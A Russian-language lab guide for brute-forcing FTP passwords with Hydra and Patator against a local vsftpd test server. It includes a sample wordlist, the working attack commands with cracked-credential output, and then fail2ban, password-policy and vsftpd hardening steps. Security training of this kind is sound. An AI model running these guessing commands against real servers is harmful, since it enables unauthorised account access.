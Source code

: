 # Лабораторная работа №12 - Исследование способов перебора паролей для FTP-серверов (в учебных целях)**  

#### **Цель работы:**  
Изучить методы перебора паролей для FTP-серверов с использованием инструментов **Hydra** и **Patator** (в учебных целях). Освоить защитные меры против подобных атак.  

---

## **1. Подготовка виртуального стенда**  

### **1.1. Создание виртуальных машин**  
Используем **2 виртуальные машины**:  
- **VM1 (Атакующий)**: Kali Linux (или другая система с установленными Hydra и Patator).  
- **VM2 (Цель)**: Сервер с FTP (например, vsftpd на Debian/Ubuntu).  

### **1.2. Настройка сети**  
- Обе машины должны находиться в одной сети.  
- **VM1 (Kali Linux)**: `192.168.56.10`  
- **VM2 (FTP-сервер)**: `192.168.56.20`  

### **1.3. Установка FTP-сервера на VM2**  
```bash
sudo apt update
sudo apt install vsftpd -y
sudo systemctl start vsftpd
sudo systemctl enable vsftpd
```  

### **1.4. Создание тестовых пользователей**  
```bash
sudo useradd -m testuser1
sudo passwd testuser1  # Установите пароль "12345"
sudo useradd -m testuser2
sudo passwd testuser2  # Установите пароль "qwerty"
```  

---

## **2. Перебор паролей с помощью Hydra**  

### **2.1. Установка Hydra** (если нет в Kali Linux)  
```bash
sudo apt install hydra -y
```  

### **2.2. Создание словаря паролей**  
Создаем файл `passwords.txt`:  
```
12345
qwerty
password
admin
123456
letmein
```  

### **2.3. Запуск атаки перебора**  
```bash
hydra -l testuser1 -P passwords.txt ftp://192.168.56.20 -V
```  
**Где:**  
- `-l` – имя пользователя.  
- `-P` – путь к файлу с паролями.  
- `-V` – подробный вывод.  

**Пример успешного подбора:**  
```
[STATUS] 192.168.56.20 ftp login: testuser1 password: 12345
```  

---

## **3. Перебор паролей с помощью Patator**  

### **3.1. Установка Patator**  
```bash
sudo apt install patator -y
```  

### **3.2. Запуск атаки**  
```bash
patator ftp_login host=192.168.56.20 user=testuser2 password=FILE0 0=passwords.txt -x ignore:mesg='Login incorrect.'
```  
**Где:**  
- `host` – IP FTP-сервера.  
- `user` – имя пользователя.  
- `password=FILE0` – чтение паролей из файла.  
- `-x ignore:mesg='Login incorrect.'` – игнорировать неудачные попытки.  

**Пример успешного подбора:**  
```
Found valid credentials: testuser2:qwerty
```  

---

## **4. Защита от перебора паролей**  

### **4.1. Ограничение попыток входа (fail2ban)**  
```bash
sudo apt install fail2ban -y
sudo nano /etc/fail2ban/jail.local
```  
**Добавляем:**  
```ini
[vsftpd]
enabled = true
maxretry = 3
bantime = 600
```  

### **4.2. Использование сложных паролей**  
```bash
sudo apt install libpam-pwquality
sudo nano /etc/security/pwquality.conf
```  
**Настройки:**  
```ini
minlen = 12
dcredit = -1
ucredit = -1
ocredit = -1
lcredit = -1
```  

### **4.3. Отключение анонимного FTP**  
```bash
sudo nano /etc/vsftpd.conf
```  
**Проверяем:**  
```ini
anonymous_enable=NO
local_enable=YES
chroot_local_user=YES
```  

**Важно:** Данная работа предназначена **только для учебных целей**. Несанкционированный перебор паролей незаконен.